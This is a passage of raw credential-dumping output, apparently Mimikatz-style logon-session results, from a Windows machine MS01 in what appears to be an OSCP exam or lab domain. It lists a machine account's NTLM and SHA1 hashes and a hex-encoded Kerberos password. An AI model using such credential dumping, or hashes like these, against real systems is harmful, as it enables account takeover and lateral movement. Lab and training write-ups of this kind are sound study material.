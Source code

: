```bash
         * Password : (null)
        kerberos :
         * Username : MS01$
         * Domain   : oscp.exam
         * Password : ec 3f f3 28 b2 fe 85 c4 b0 4b 82 8b 38 c1 1d 2a b4 2a 57 eb bc 55 c9 a6 fd 89 af 26 46 c2 69 23 3d ec 16 b0 58 39 e7 09 fd 0f 2d a1 93 1c 4d af 23 e7 1d 95 e2 0c 33 04 f7 e8 ed 48 9f b1 83 b3 fb 12 b1 7f 61 a3 de 8d 44 1b 39 80 78 50 f0 96 98 ac 52 86 3b 03 bb 61 fc 00 94 09 89 75 db c7 34 0c b9 b0 e2 f2 5d 0c 0b 72 52 36 50 6e 91 1d 70 db 56 0e 75 b5 8c 3f 8a 81 56 83 d3 a6 a0 04 88 d0 cd fd 1f 7b 7c c0 32 3f 54 37 b8 d0 2b 98 d1 6e 81 01 3c f5 d9 b9 ad 0f e7 81 fa 03 03 b0 86 3d b2 5f 1d 44 4e 14 b2 08 30 b8 4a af e2 45 87 10 a1 39 6c cf 34 93 9a 3f 0c c2 02 87 0b 08 2d c0 cd d0 d2 ae 23 df 74 f5 c6 4c 6a 9e 35 9c 8c a0 97 d8 0d ef 71 90 e4 b3 08 eb 1b 58 10 9f 36 f2 49 2b bb 36 b4 8d 32 80 b7 9f f8 47 0a 9d 
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2/12/2025 2:30:08 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : MS01$
Domain            : OSCP
Logon Server      : (null)
Logon Time        : 2/12/2025 2:30:08 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : MS01$
         * Domain   : OSCP
         * NTLM     : a913a6db3451444d9dfe26db3f8a8df4
         * SHA1     : 4438b324479e351bcc5c8e645edee0b0a6534637
        tspkg :
        wdigest :
         * Username : MS01$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : ms01$
         * Domain   : OSCP.EXAM
```
